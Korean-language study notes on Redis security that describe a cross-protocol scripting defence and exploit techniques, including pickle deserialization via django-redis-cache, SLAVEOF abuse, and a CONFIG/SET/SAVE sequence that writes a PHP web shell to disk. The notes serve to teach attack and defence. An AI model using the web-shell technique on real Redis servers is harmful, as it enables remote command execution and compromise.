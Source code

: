          -> HTTP의 Body부분에 원하는 명령어를 포함시켜 공격

      

  * **방어방법**

    -> HTTP의 주요 키워드가 명령어로 입력되면 해당 연결을 끊어버리는 방식

    ```pseudocode
    $ echo -e "post a\r\nget hello" | nc 127.0.0.1 6379
    $ echo -e "host: a\r\nget hello" | nc 127.0.0.1 6379
    # 12235:M 01 May 09:59:57.614 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
    ```

    -> `post` 또는 `host` 키워드가 포함될 경우 securityWarningCommand로 인식하여 클라이언트와의 연결을 끊기

    

### **Exploit Technique**

* **공격 방법**

  * **다른 어플리케이션과 연계**

    * **django-redis-cache**

      -> Django 에서 Redis를 사용한 cache를 구현할 수 있는 모듈

      **=>  serialize를 할 때 Python의 pickle 모듈을 사용할 경우 공격에 사용**

      

  * **Redis 명령어**

    * **SAVE**

      -> 해당 파일을 저장하는 주기를 변경 또는 즉시 저장

       -> 저장되는 파일의 경로, 파일 이름 및 저장될 데이터 설정

      ```pseudocode
      CONFIG set dir /tmp # 저장될 파일 경로 설정 
      CONFIG set dbfilename redis.php # 파일 이름 설정
      SET test "<?php system($_GET['cmd']); ?>" # 데이터 추가
      SAVE # 파일 시스템 저장
      ```

      

    * **SLAVEOF / REPLICAOF**

      -> 다른 Redis 노드를 명령어를 실행하는 노드의 마스터 노드로 지정

      -> 마스터 노드와 성공적으로 연결이 완료되면, 마스터 노드의 데이터를 복제하여 저장

      **=> 마스터 노드에 연결을 맺는 과정에서 발생하는 네트워크 트래픽을 통해 Redis 공격이 성공적으로 수행되었다는 점을 원격으로 확인 가능**
